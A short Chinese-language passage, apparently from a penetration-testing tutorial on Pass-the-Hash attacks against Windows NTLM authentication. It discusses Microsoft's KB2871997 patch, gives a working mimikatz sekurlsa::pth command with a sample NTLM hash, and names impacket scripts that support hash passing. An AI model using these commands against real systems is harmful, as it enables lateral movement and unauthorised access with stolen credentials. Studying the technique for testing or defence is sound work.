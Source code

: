 微软在 2014 年 5 月 13 日发布了针对 Pass The Hash 的更新补丁 kb2871997 标题为“Update to fix the Pass-The-Hash Vulnerability”, 而在一周后却把标题改成了“Update to improve credentials protection and management”。同时该补丁还能阻止 mimikatz 抓取明文密码。

严格意义上讲 hash 传递只是完成一个不需要输入密码的 NTLM 协议认证流程所以并不算是一个漏洞只能算是一个技巧。

**a、常用工具**

哈希传递作为一个比较常见的攻击方式对应的工具有很多。常见的有

**1.mimikatz**

```bash
privilege::debug
sekurlsa::pth /user:win10 /domain:test.local /ntlm:6a6293bc0c56d7b9731e2d5506065e4a
```

![](assets/1710388326-f971e0ff96240217e16accfb86dbaba3.png)

**2.impacket**

impacket 的模块中有 5 个都支持 hash 传递。

> psexec.py
> 
> smbexec.py
> 
> atexec.py
> 
> wmiexec.py
> 
> dcomexec.py
